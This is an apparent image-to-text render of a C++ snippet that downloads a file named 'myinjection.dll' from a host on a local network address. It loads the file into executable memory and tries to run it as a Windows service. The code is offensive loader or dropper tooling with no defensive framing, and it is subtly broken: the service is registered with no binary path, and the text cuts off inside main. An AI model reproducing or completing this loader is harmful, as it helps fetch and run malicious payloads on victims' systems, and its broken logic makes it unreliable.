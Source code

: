 ```cpp
bool CreateAndStartServiceFromMemory(const char* serviceName, unsigned char* binaryBuffer, size_t bufferSize) {
    SC_HANDLE schSCManager = OpenSCManager(NULL, NULL, SC_MANAGER_CREATE_SERVICE);
    if (!schSCManager) return false;

    SC_HANDLE schService = CreateServiceA(
        schSCManager,              // SCM database
        serviceName,               // name of service
        serviceName,               // service name to display
        SERVICE_ALL_ACCESS,        // desired access
        SERVICE_WIN32_OWN_PROCESS, // service type
        SERVICE_DEMAND_START,      // start type
        SERVICE_ERROR_NORMAL,      // error control type
        NULL,                      // path to service's binary
        NULL,                      // no load ordering group
        NULL,                      // no tag identifier
        NULL,                      // no dependencies
        NULL,                      // LocalSystem account
        NULL);                     // no password

    if (!schService) {
        CloseServiceHandle(schSCManager);
        return false;
    }

    // Write the binary to memory
    LPVOID pBinaryPath = VirtualAllocEx(GetCurrentProcess(), NULL, bufferSize, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    if (!pBinaryPath) {
        CloseServiceHandle(schService);
        CloseServiceHandle(schSCManager);
        return false;
    }

    memcpy(pBinaryPath, binaryBuffer, bufferSize);

    // Start the service
    if (!StartServiceA(schService, 0, NULL)) {
        VirtualFreeEx(GetCurrentProcess(), pBinaryPath, 0, MEM_RELEASE);
        CloseServiceHandle(schService);
        CloseServiceHandle(schSCManager);
        return false;
    }

    CloseServiceHandle(schService);
    CloseServiceHandle(schSCManager);
    return true;
}

int main(int argc, char* argv[]) {
    const char* serviceName = "MyService";
    unsigned char* binaryBuffer = nullptr;
    size_t bufferSize = 0;

    // Download binary from URL
    if (!DownloadBinaryFromURL("http://192.168.45.250:8000/myinjection.dll", &binaryBuffer, &bufferSize)) {
        std::cerr << "Failed to download binary." << std::endl;
        return 1;
    }

    // Create and start service from memory
    if (!CreateAndStartServiceFromMemory(serviceName, binaryBuffer, bufferSize)) {
```